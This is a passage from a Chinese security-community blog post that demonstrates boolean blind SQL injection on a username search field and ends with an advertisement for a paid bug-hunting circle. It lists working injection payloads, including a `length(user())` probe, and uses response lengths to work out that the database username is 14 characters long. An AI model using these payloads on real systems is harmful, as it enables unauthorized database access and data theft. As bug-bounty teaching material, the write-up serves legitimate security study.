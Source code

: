  
进行布尔盲注。  
  

```
username like '1') or 1=1 and (1
```

  
长度1388  
  
![1747185401_6823eef9e9c6c7d12c417.jpg!small?1747185402644](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXB4gLbciaqUMetw3YufLSibBtzESTewEcgWKfXouZS899L83qX5iagAv3Y0d5lZcnOcDt8l4W7qhzpg/640?wx_fmt=jpeg&from=appmsg "")  
  

```
username like '1') or 1=2 and (1
```

  
长度339  
  
![1747185415_6823ef077bb0cc0032a30.jpg!small?1747185416129](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXB4gLbciaqUMetw3YufLSibBibmyQFSoVh86Fma9NxLsJSX2X4OGKaCpr9cIgbCW2ic2yZKKbYNpvS3Q/640?wx_fmt=jpeg&from=appmsg "")  
  
构造payload  
  

```
username like '1') or n=length(user()) and (1
```

  
  
当n=length(user()) 时，也就是n为当前数据库用户名长度时，返回包长度为1388  
  
![1747185430_6823ef164783000b2b813.jpg!small?1747185431141](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXB4gLbciaqUMetw3YufLSibBMrw5zK09lBc1cSmjwu3yAENftQZH2052UbKEX1IHuXeFTkwmXKDsvA/640?wx_fmt=jpeg&from=appmsg "")  
  
最终爆破出用户名长度为14，依然是点到为止。  
  
  
**内部小圈子详情介绍**  
  
  
  
我们是  
神农安全  
，点赞 + 在看  
 铁铁们点起来，最后祝大家都能心想事成、发大财、行大运。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mngWTkJEOYJDOsevNTXW8ERI6DU2dZSH3Wd1AqGpw29ibCuYsmdMhUraS4MsYwyjuoB8eIFIicvoVuazwCV79t8A/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap086iau0Y0jfCXicYKq3CCX9qSib3Xlb2CWzYLOn4icaWruKmYMvqSgk1I0Aw/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**内部圈子介绍**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap08Z60FsVfKEBeQVmcSg1YS1uop1o9V1uibicy1tXCD6tMvzTjeGt34qr3g/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
**圈子专注于更新src/红蓝攻防相关：**  
  

```
1、维护更新src专项漏洞知识库，包含原理、挖掘技巧、实战案例
2、知识星球专属微信“小圈子交流群”
3、微信小群一起挖洞
4、内部团队专属EDUSRC证书站漏洞报告
5、分享src优质视频课程（企业src/EDUSRC/红蓝队攻防）
6、分享src挖掘技巧tips
7、不定期有众测、渗透测试项目（一起挣钱）
8、不定期有工作招聘内推（工作/护网内推）
9、送全国职业技能大赛环境+WP解析（比赛拿奖）
```
